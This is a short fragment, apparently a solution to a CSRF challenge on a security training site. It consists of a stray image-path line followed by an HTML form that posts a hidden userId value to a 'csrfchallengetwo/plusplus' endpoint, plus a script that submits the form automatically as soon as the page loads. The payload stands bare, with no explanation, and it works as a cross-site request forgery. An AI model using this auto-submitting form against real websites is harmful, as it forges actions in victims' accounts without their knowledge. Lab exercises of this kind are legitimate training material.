 <form name= "csrfForm" action= "https://security.codeptath.com/user/csrfchallengetwo/plusplus" method="POST">
  <input type="hidden" name="userId" value="cbd85cbd9bce738f492532b9ea6a7acb60e9bcc2" />
  <input type="submit"/>
 </form>
 <script> document.csrfForm.submit();</script>
  
